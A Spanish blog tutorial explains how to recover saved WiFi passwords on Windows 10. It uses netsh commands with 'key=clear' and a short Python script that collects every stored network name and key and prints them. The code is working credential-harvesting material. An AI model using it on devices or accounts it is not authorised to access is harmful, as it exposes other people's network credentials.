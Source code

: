 ```yaml
---
layout: single
title:  Como conseguir contraseñas wifi en Windows 10
excerpt: "En este post te voy a explicar cómo conseguir las contraseñas wifi almacenadas en un dispositivo que utiliza como sistema operativo Windows 10, y cómo utilizar Python para automatizarlo"
date: 2021-09-12
classes: wide
header:
    teaser: /assets/images/como-conseguir-contrasenas-wifi-en-windows-10/portada.jpg
    teaser_home_page: true
categories:
    - Tutoriales
tags:
    - Tutoriales
    - Passwords
    - Python
    - Windows 10
---
```

<p align="center">
<img src="/assets/images/como-conseguir-contrasenas-wifi-en-windows-10/portada.jpg" width="50%">
</p>

**Aviso:** Este post se ha realizado únicamente con fines educativos. No me hago responsable de las malas acciones que puedan realizar terceras personas, fruto del conocimiento transmitido.
{: .notice--danger}

Teniendo acceso a un dispositivo con Windows 10, es bastante sencillo obtener las contraseñas WiFi almacenadas en sus previas conexiones. Para conseguirlas, nos basaremos en el comando `netsh`.

## Obteniendo contraseñas WiFi desde la consola
Para empezar, vamos a listar las ID de las conexiones WiFi a las que el dispositivo ha accedido anteriormente y que siguen "almacenadas" dentro de él. Para ello, usaremos el siguiente comando dentro de la consola:

```bash
netsh wlan show profiles
```

<p align="center">
<img src="/assets/images/como-conseguir-contrasenas-wifi-en-windows-10/comando-1.jpg" width="50%">
</p>

Ahora trataremos de obtener algo más de información sobre alguna de ellas. en este caso utilizaré la red WiFi a la que me encuentro conectado. Para ello utilizaremos el comando anterior añadiendo el ID de la red WiFi sobre la que queremos obtener información:

```bash
netsh wlan show profile MOVISTAR_PLUS_5905
```

<p align="center">
<img src="/assets/images/como-conseguir-contrasenas-wifi-en-windows-10/comando-2.jpg" width="50%">
</p>

Podemos ver información general, ajustes de conectividad, de seguridad y de coste. En este punto nos interesa un valor en especial: "Security Key". Como vemos, nos indica que está presente, eso quiere decir que disponemos de la clave de seguridad.
Queremos obtenerla ¿no? Para ello, le añadiremos al comando anterior `key=clear`

```bash
netsh wlan show profile MOVISTAR_PLUS_5905 key=clear
```

<p align="center">
<img src="/assets/images/como-conseguir-contrasenas-wifi-en-windows-10/comando-3.jpg" width="50%">
</p>

Así de simple hemos podido obtener la contraseña, y esto mismo funcionará para el resto de IDs. Si buscásemos obtenerlas todas y hubieran 50 IDs diferentes, tardaríamos una eternidad y además sería bastante tedioso, así que... ¿Por qué no automatizarlo?

## Automatizando la obtención de contraseñas WiFi mediante Python
Sin duda alguna Python es de las mejores opciones para hacer scripts de forma rápida y automatizar la mayoría de cosas que se nos hacen tediosas. El objetivo de este post no es enseñar a programar, es por ello que explicaré muy por encima lo que hace el código. Notad que utilizaremos los comandos anteriormente mencionados haciendo uso del módulo "subprocess":

Empezaremos con los módulos necesarios.
```python
import subprocess
import re
```
El módulo "subprocess" nos permitirá usar comandos del sistema y el módulo "re" nos permitirá usar expresiones regulares para extraer información de los resultados obtenidos mediante los comandos de consola.

```python
#...
output = subprocess.run(["netsh", "wlan", "show", "profiles"], capture_output = True).stdout.decode()
names = (re.findall("All User Profile     : (.*)\r", output))

list = []
```
En estas líneas de código hemos creado una variable (output) que almacena el resultado del comando `netsh wlan show profiles` y otra variable en la que almacenamos todas las IDs de obtenidas en "output". Luego de esto creamos una lista para almacenar posteriormente la información.

```python
#...
if len(names) != 0:
    for name in names:
        wifi_profile = {}
        pinfo = subprocess.run(["netsh", "wlan", "show", "profile", name], capture_output = True).stdout.decode()
        if re.search("Security key           : Absent", pinfo):
            continue
        else:
            wifi_profile["ssid"] = name
            pinfo_pswd = subprocess.run(["netsh", "wlan", "show", "profile", name, "key=clear"], capture_output = True).stdout.decode()
            pswd = re.search("Key Content            : (.*)\r", pinfo_pswd)
            if pswd == None:
                wifi_profile["password"] = None
            else:
                wifi_profile["password"] = pswd[1]
            list.append(wifi_profile)
```
Mediante estas lineas de código comprobamos que existe al menos 1 ID almacenada. Si es así, mediante un bucle buscamos aquellas que tienen almacenada la contraseña ("Security Key : Present") y la conseguimos añadiéndola posteriormente a una lista. Las IDs que no tienen la contraseña guardada las descartamos. Ahora solo nos queda mostrarlas en pantalla.

NOTA: La expresiones regulares mediante las que buscamos la información obtenida en "output" se encuentran escritas en inglés, pues es el idioma en el que se encuentra configurado mi sistema operativo. Recordad cambiar las expresiones regulares según el idioma correspondiente.

```python
#...
for x in range(len(list)):
    print(list[x])
```
Recorremos la lista y la mostramos en pantalla. Así hemos automatizado la obtención de todas las contraseñas (que en mi caso son únicamente 3). Vamos a ejecutarlo y comprobar que funciona:

<p align="center">
<img src="/assets/images/como-conseguir-contrasenas-wifi-en-windows-10/script.jpg" width="50%">
</p>

Como podemos ver, ha listado las 3 conexiones y ha mostrado la contraseña de cada una de ellas, de forma automática y en menos de 2 segundos. Puedes encontrar el código completo en [github](https://github.com/r4kso/HackingScripts/blob/main/GetWifiPasswords.py)

Espero que te haya sido útil este post, recuerda utilizar esta información de forma adecuada. También puedes seguirme en mis redes sociales: [Instagram](https://www.instagram.com/notaboutfran/) y [Twitter](https://twitter.com/notaboutfran).